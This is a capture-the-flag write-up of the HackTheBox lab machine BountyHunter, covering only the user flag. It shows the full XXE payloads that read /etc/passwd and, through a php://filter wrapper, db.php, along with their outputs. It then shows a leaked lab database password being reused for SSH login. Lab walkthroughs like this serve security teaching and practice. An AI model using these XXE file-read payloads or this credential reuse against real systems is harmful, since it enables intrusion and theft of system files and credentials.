 ```yaml
---
layout: post
title:  "HackTheBox BountyHunter"
date:   2021-10-03
category: Writeup
image: assets/img/blog/BountyHunter.png
author: Lukas Marckmiller
tags: ctf
---
```


# HackTheBox BountyHunter Writeup!

Hi! Thanks for reading my Writeup for the HTB Machine *BountyHunter*


## User.txt

First, i started with running [autorecon](https://github.com/Tib3rius/AutoRecon) (`autorecon <ip>)`. Its a pretty nice tool for gathering information about open ports, services bound to ports and possible attack vectors.
Taking a look on the results of  [autorecon](https://github.com/Tib3rius/AutoRecon) it reveals two open ports, SSH (**22**) and HTTP (**80**).  
![nmap](/assets/img/blog/bhnmap.png)
I manually visited the website on port 80, found a php script and started running `gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://<ip> -x php`. It revealed following files and directories:
|Path|Info  |
|--|--|
| /resources,/index.php,portal.php | accessible|
| /assets, /js, /css| forbidden|
| db.php | accessible blank page|

Next i manually checked the discovered directories and found a tasklist in `http://\<ip>/resources/README.txt` containing following text:

> Tasks:
> 
> [ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
>  [X] Write tracker submit script
>  [ ] Connect tracker submit script to the database
>   [X] Fix developer group permissions

We should keep this information in mind. Also theres a file called `bountylog.js` containing JavaScript code. 

    function returnSecret(data) {
    	return Promise.resolve($.ajax({
                type: "POST",
                data: {"data":data},
                url: "tracker_diRbPr00f314.php"
                }));
    }
    
    async function bountySubmit() {
    	try {
    		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
    		<bugreport>
    		<title>${$('#exploitTitle').val()}</title>
    		<cwe>${$('#cwe').val()}</cwe>
    		<cvss>${$('#cvss').val()}</cvss>
    		<reward>${$('#reward').val()}</reward>
    		</bugreport>`
    		let data = await returnSecret(btoa(xml));
      		$("#return").html(data)
    	}
    	catch(error) {
    		console.log('Error:', error);
    	}
    }

Analysing the code we can see that it sends a post request with an xml payload to `tracker_diRbPr00f314.php`. I thought about it for a second and got the idea: 
XML + Webrequest = [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_%28XXE%29_Processing). So i started BurpSuite, moved to `http://<ip>/log_submit.php` and caught the post request to `http://<ip>/tracker_diRbPr00f314.php` which contained  a base64 encoded payload. A URL and base64 decoding later i got the raw request. 

    <?xml  version="1.0" encoding="ISO-8859-1"?>
    		<bugreport>
    		<title>1</title>
    		<cwe>2</cwe>
    		<cvss>3</cvss>
    		<reward>4</reward>
    		</bugreport>
In  Burp I moved to the Repeater and built my payload with the help of [this list](https://github.com/payloadbox/xxe-injection-payload-list).

    <?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
    		<bugreport>
    		<title>&ent;</title>
    		<cwe>2</cwe>
    		<cvss>3</cvss>
    		<reward>4</reward>
    		</bugreport>
Base64 and URL encoded i got the contents of the passwd file. 

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...
    development:x:1000:1000:Development:/home/development:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
So my XXE attack was successful. Unfortunately i couldn't read any other found files like `db.php` or `portal.php` in my expected web root direcotory at `/var/www/html/`. So i was looking for a different payload to avoid absolute paths and found an alternative payload on [hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file).

    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/db.php"> ]>
    <data>&example;</data>
It revealed the contents of db.php.

    <?php
    // TODO -> Implement login system with the database.
    $dbserver = "localhost";
    $dbname = "bounty";
    $dbusername = "admin";
    $dbpassword = "m19RoAU0hP41A1sTsq6K";
    $testuser = "test";
    ?>
Nice! So we got a database user and a password. Unfortunately i couldn't find anything else interesting so i moved to the ssh port. Previously we found a user named `development`in `/etc/passwd`, if we try `ssh development@<ip>` we are prompted for a password. We haven't found any password for this user so i just tried the password from the `db.php` file and .... it worked! 

    development@bountyhunter:~$ id   
    uid=1000(development) gid=1000(development) groups=1000(development)
  So we can retrieve the first flag.

## Root.txt
... soon

